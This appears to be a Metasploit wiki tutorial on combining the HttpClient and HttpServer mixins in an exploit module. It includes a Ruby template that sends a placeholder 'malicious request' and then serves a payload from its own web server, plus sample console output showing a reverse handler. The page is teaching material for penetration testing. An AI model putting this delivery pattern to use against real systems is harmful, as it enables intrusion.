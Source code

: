 Using multiple networking mixins in a Metasploit module is always a tricky thing to do, because most likely you will run into issues like overlapping datastore options, variables, methods, etc. This is considered as advanced module development, but sometimes can be rather painful to figure out on your own. To improve the Metasploit development experience, we have a few examples to demonstrate common scenarios that require you to use multiple mixins to achieve exploitation. 

### Today's lesson: Send a HTTP request to attack the target machine, and use a HttpServer for payload delivery.

Say you want to exploit a web server or web application. You have code execution on the box, but you need to find a way to deliver the final payload (probably an executable), and a HTTP server happens to be your option.

Here is how you can set it up:

```ruby

##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer::HTML

  def initialize(info={})
    super(update_info(info,
      'Name'           => "HttpClient and HttpServer Example",
      'Description'    => %q{
        This demonstrates how to use two mixins (HttpClient and HttpServer) at the same time,
        but this allows the HttpServer to terminate after a delay.
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'sinn3r' ],
      'References'     =>
        [
          ['URL', 'http://metasploit.com']
        ],
      'Payload'        => { 'BadChars' => "\x00" },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', {} ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 09 2013",
      'DefaultTarget'  => 0))

      register_options(
        [
          OptString.new('TARGETURI', [true, 'The path to some web application', '/']),
          OptInt.new('HTTPDELAY',    [false, 'Number of seconds the web server will wait before termination', 10])
        ], self.class)
  end

  def on_request_uri(cli, req)
    print_status("#{peer} - Payload request received: #{req.uri}")
    send_response(cli, 'You get this, I own you')
  end

  def primer
    print_status("Sending a malicious request to #{target_uri.path}")
    send_request_cgi({'uri'=>normalize_uri(target_uri.path)})
  end

  def exploit
    begin
      Timeout.timeout(datastore['HTTPDELAY']) { super }
    rescue Timeout::Error
      # When the server stops due to our timeout, this is raised
    end
  end
end
```

Here's what happens when you run the above example:

1. The super call wrapped in the Timeout block will start the web server.
2. Before the web server is in the infinite loop state, the primer() method is called, which is where you send your malicious requests to get code execution.
3. Your HttpServer serves the final payload upon request.
4. After 10 seconds, the module raises a Timeout exception. The web server finally terminates.

In case you're wondering why the web server must terminate after a period of time, this is because if the module fails to gain code execution on the target machine, obviously it will never ask your web server for the malicious payload, therefore there is no point to keeping it alive forever. Typically it shouldn't take a very long time to get a payload request, either, so we keep the timeout short.

The output for the above example should look something like this:

```
msf exploit(test) > run
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.1.76:4444 
[*] Using URL: http://0.0.0.0:8080/SUuv1qjZbCibL80
[*]  Local IP: http://10.0.1.76:8080/SUuv1qjZbCibL80
[*] Server started.
[*] Sending a malicious request to /
msf exploit(test) >
[*] 10.0.1.76        test - 10.0.1.76:8181 - Payload request received: /SUuv1qjZbCibL80
[*] Server stopped.

msf exploit(test) >
```

### Related Articles:

* https://github.com/rapid7/metasploit-framework/wiki/How-to-Send-an-HTTP-Request-Using-HTTPClient
* https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer
* https://community.rapid7.com/community/metasploit/blog/2012/12/17/metasploit-hooks